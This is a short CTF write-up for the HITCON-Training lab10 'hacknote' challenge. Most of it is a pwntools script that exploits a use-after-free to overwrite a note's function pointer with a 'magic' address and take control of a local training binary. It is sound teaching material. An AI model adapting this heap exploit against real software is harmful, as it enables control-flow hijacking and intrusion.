 # HITCON-Training lab10

## binary analysis

> Makefile
```
hacknote:hacknote.c
	gcc -m32 hacknote.c -o hacknote
```

I used this structure to analysis easier.

```c
struct Note {
  int (__cdecl *print)(int);
  char *buf;
};
```

![](main.PNG)

![](menu.PNG)

![](print_note.PNG)

![](del_note.PNG)

![](add_note.PNG)

![](magic.PNG)

## solve

```python
from pwn import *

context.arch = "i386"
# context.log_level = "DEBUG"

p = process("./hacknote")
e = ELF("./hacknote")

libc = ELF("../libc.so.6")

attach(p, "break *0x08048A7C\nc")

raw_input()

def addNote(size, body):
    p.sendlineafter(":", "1")
    p.sendlineafter(":", str(size))
    p.sendlineafter(":", body)

def deleteNote(index):
    p.sendlineafter(":", "2")
    p.sendlineafter(":", str(index))

def printNote(index):
    p.sendlineafter(":", "3")
    p.sendlineafter(":", str(index))

magic = 0x08048986

addNote(24, "aaaaaaaa")
addNote(24, "bbbbbbbb")
addNote(24 ,"cccccccc")

deleteNote(0)
deleteNote(1)

addNote(8, p32(magic))

printNote(0)

p.interactive()
```